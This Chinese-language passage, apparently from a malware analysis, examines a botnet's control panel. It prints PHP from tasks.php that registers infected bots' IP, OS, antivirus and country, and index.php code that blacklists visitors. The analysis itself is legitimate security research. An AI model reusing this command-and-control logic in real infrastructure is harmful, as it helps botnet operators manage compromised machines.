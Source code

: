 用于实现跟bot通信的主文件是**tasks.php**，它只接收一种POST请求。

将bot发送的信息添加到数据库：

tasks.php

```
if ($_SERVER["REQUEST_METHOD"] != "POST") {
  AddBan($real_ip);
}

CheckBotUserAgent($real_ip);
CheckBan($real_ip);
if (isset($_POST['cmd'])) {

  $time = time();
  $date = date('Y-m-d H:i:s');

  $bot_ip = $real_ip;
  $bot_os = $_POST['os'];
  $bot_name = urlencode($_POST['uid']);

  $bot_uid = md5($bot_os . $bot_name);

  $bot_time = $time;
  $bot_date = $date;

  $bot_av = strip_data($_POST['av']);
  $bot_version = strip_data($_POST['version']);
  $bot_quality = intval($_POST['quality']);

  $gi = geoip_open("GeoIP/GeoIP.dat", GEOIP_STANDARD);
  $bot_country = geoip_country_code_by_addr($gi, $bot_ip);
  if ($bot_country == null) {
  $bot_country = "O1";
}
geoip_close($gi);

```

打开**index.php**会导致客户端的IP被加入黑名单（无条件）：

index.php

```
ConnectMySQL($db_host, $db_login, $db_password, $db_database);
CheckBan($real_ip);
AddBan($real_ip);

```

### Stub

在后端可以找到的所有命令在前端都有所反映，这一点可以清楚看出来，因为有效荷载根本就没有经过混淆处理！
